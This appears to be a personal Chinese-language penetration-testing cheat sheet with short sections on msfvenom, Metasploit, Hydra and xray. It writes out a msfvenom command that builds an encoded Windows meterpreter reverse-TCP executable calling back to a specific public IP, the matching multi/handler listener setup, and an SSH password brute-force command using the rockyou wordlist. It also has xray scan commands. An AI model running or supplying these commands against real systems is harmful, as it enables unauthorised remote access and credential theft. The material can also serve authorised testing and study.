 ## GIT
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230705202542.png)


## nmap
## msf
msfvenom生成reverse_shell马
```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=115.236.153.174 LPORT=39063 -b "\x00" -i 10 -f exe -o /tmp/window_remote_hsk.exe
```

监听端口
```shell
msfconsole  //启动
​
use exploit/multi/handler  //开启监听 
​
set payload windows/meterpreter/reverse_tcp  //设置payload，选择漏洞利用模块
​
set lhost 192.168.36.134  //本地IP，即攻击IP
​
set lport 4444  //监听端口
​
exploit   //攻击
```

[msf后渗透测试萌新指南](https://www.anquanke.com/post/id/164525#h3-21)
[msf获取到session后的命令集合](https://blog.csdn.net/qq_39101049/article/details/96854716)

## Hydra

```
hydra -l frank -P /usr/share/wordlists/rockyou.txt 10.10.240.52 ssh
```

## xray
```shell
//基础爬虫爬取并对爬虫爬取的链接进行漏洞扫描
xray webscan --basic-crawler http://example.com --html-output vuln.html
//使用代理
xray webscan --listen 127.0.0.1:7777 --html-output proxy.html
//扫描单个url
xray webscan --url http://example.com?a=b --html-output single-url.html

```